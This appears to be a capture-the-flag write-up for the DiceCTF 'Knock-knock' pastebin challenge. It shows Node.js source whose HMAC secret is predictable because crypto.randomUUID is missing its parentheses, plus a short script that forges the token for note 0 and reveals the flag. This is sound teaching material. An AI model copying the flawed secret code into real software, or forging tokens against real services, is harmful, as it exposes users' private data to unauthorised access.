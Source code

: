 # Knock-knock
### Task source: https://github.com/Tzion0/CTF/tree/master/DiceCTF

Looking at the webpage, it is a site similar to pastebin that let us to create paste.

![IMG](_resources/img.png)

After clicking the `create` button, it will redirect us to a page with an unique token that contains our paste:

```
https://knock-knock.mc.ax/note?id=2249&token=262fedf8ca783b2fd19c581064ab48511877fe2bff4f3ad79726c9ae8277cfd5
```

Fortunately we have source code comes with this challenge:

```
const crypto = require('crypto');

class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}

const db = new Database();
db.createNote({ data: process.env.FLAG });

const express = require('express');
const app = express();

app.use(express.urlencoded({ extended: false }));
app.use(express.static('public'));

app.post('/create', (req, res) => {
  const data = req.body.data ?? 'no data provided.';
  const { id, token } = db.createNote({ data: data.toString() });
  res.redirect(`/note?id=${id}&token=${token}`);
});

app.get('/note', (req, res) => {
  const { id, token } = req.query;
  const note = db.getNote({
    id: parseInt(id ?? '-1'),
    token: (token ?? '').toString(),
  });
  if (note.error) {
    res.send(note.error);
  } else {
    res.send(note.data);
  }
});

app.listen(3000, () => {
  console.log('listening on port 3000');
});

```

Looking at the source code, we can determine that the value of param `id` will increase by 1 everytime someone create a paste, while the token is created by using `crypto.createHmac()` with a secret key.

It tooks me a while to actually notice where the vulnerability is. In fact, the vulnerability is hiding in this code:

```
constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
}
```

The calling of `crypto.randomUUID` missing parentheses, it actually will always return the following on recommended version of nodejs:

```
secret-function randomUUID(options) {
  if (options !== undefined)
    validateObject(options, 'options');
  const {
    disableEntropyCache = false,
  } = options || {};

  validateBoolean(disableEntropyCache, 'options.disableEntropyCache');

  return disableEntropyCache ? getUnbufferedUUID() : getBufferedUUID();
}
```
#### Note: For lower version of nodejs, it will return `undefined` instead. 

So the correct code should be `crypto.randomUUID()` to get the proper random secret. With that, I create a small script to generate URL of other paste, I assuming that the first paste `id=0` is the flag:

```
const crypt = require('crypto');
secret = `secret-${crypt.randomUUID}`;

console.log(`https://knock-knock.mc.ax/note?id=0&token=${crypt.createHmac('sha256', secret).update('0').digest('hex')}`);
```

Output:
```
https://knock-knock.mc.ax/note?id=0&token=7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264
```

Flag:
```
dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}
```
